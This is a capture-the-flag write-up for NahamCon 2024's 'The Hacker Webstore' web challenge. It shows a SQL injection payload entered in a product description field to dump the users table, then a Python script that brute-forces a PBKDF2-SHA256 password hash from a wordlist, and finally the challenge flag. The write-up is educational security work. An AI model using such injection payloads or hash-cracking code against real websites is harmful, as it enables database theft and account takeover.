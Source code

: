 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | The Hacker Webstore Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: web
challenge: The Hacker Webstore
tags: "web, starry, sql, sqli, cracking"
date: 2024-05-28T00:00:00+00:00
last_update: 2024-05-28T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>

## The Hacker Webstore
> Solved by: Starlord

Mirror : <a href="https://synthweb.ch/blog/nahamcon-ctf-2024/the-hacker-webstore">https://synthweb.ch/blog/nahamcon-ctf-2024/the-hacker-webstore</a>

![challenge description](https://i.imgur.com/TNLkY9J.png)


As we visit the challenge page, we can see an online store, which sells products aimed at hacker stereotypes.
There are 2 endpoints:

- / for products
- /create to create products
- /admin to login to the website’s back-end

Since we can create products I tried breaking one of 3 inputs by adding `'``)` to one of them, which returned this very helpful error, which helped understand what was going on.

![products page with sql error](https://i.imgur.com/Iy17z9A.png)


the following payload inserted in the description field did the trick for me:

```
lord') UNION SELECT * FROM users/*
```

This will show everything from the table `users` and comment out the rest of the line.


![uncrackable hashes](https://i.imgur.com/FTE7qtQ.png)


From there it was just a matter of cracking the hashes. But it turned out to be more complicated than usual:
As per research, we found out that hashcat and john the ripper, 2 most commonly used tools for cracking hashes, had multiple ways of cracking pbkdf2 sha256 hashes, but none of them had a working function for our specific current hash format.
We managed to identify the different parts of the hash thanks to reddit and stack overflow posts which looks like this:

    pbkdf2:sha256:<iterations amount>$<Salt>$<hash>

After trying desperately with modes 10900, 10000, 1460, the hashes were not cracking.

Remember, we have 2000 potential passwords in a list given in the challenge description, so even if we have 600k iterations, it shouldn’t take too long.

I ended up making my own decryption tool:

- crack.py

```python
import hashlib

def crack_pbkdf2_sha256_hash(password_list_file, target_hash, salt, iterations):
    with open(password_list_file, 'r') as file:
        passwords = file.read().splitlines()
    
    for password in passwords:
        # make PBKDF2-HMAC-SHA256
        dk = hashlib.pbkdf2_hmac('sha256', password.encode(), salt.encode(), iterations)
        print(f"Trying password: {password}")
        
        # match check
        if dk.hex() == target_hash:
            print(f"Password found: {password}")
            return password
    
    print("Password not found in the provided list.")
    return None

target_hash = "b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57"
salt = "MSok34zBufo9d1tc"
iterations = 600000
password_list_file = "password_list.txt"

crack_pbkdf2_sha256_hash(password_list_file, target_hash, salt, iterations)
```

I made sure it would print each password to be able to visually confirm progress, as shown below:

![password found](https://i.imgur.com/FCaLxvU.png)


With this, I could then authenticate at /admin and see the flag:

![flag discovered](https://i.imgur.com/of6ycSh.png)

```
flag{87257f24fd71ea9ed8aa62837e768ec0}
```

